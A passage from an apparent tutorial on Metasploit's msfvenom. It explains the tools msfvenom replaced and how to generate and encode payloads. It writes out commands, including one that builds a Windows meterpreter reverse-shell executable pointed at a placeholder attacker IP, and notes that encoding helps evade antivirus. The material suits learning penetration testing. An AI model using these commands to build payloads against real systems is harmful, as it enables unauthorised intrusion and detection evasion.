 - These payloads could perform various actions, such as opening a shell, establishing a connection, or executing commands.

- Essentially, it was the tool for creating the raw code that would be delivered to a target.

**MSFencode:**

- This tool was used to encode payloads generated by MSFpayload.   

- Encoding is crucial because it helps to evade detection by antivirus software and intrusion detection systems.   

- It transforms the payload's code into a different format, making it harder to recognize as malicious.

MSFvenom replaced the separate MSFpayload and MSFencode tools by combining their functionalities into a single, streamlined command-line utility, enhancing efficiency and simplifying the process of generating and encoding payloads within the Metasploit Framework.

## How to generate a payload

To generate a payload, there are two flags that you must supply (-p and -f):

- **The -p flag: Specifies what payload to generate**

To see what payloads are available from Framework, you can do:

```plaintext
msfvenom -l payloads
```

The -p flag also supports “-“ as a way to accept a custom payload:

```plaintext
cat payload_file.bin | ./msfvenom -p - -a x86 --platform win -e x86/shikata_ga_nai -f raw
```

- **The -f flag: Specifies the format of the payload**

Syntax example:

```plaintext
msfvenom -p windows/meterpreter/bind_tcp -f exe
```

To see what formats are supported, you can do the following to find out:

```plaintext
msfvenom --help-formats
```

Typically, this is probably how you will use msfvenom:

```plaintext
$ msfvenom -p windows/meterpreter/reverse_tcp lhost=[Attacker's IP] lport=4444 -f exe -o /tmp/my_payload.exe
```

## How to encode a payload

Encoders are used to encode the payload and convert it into pure alphanumeric characters and remove any bad characters to make it suited for the target environment.
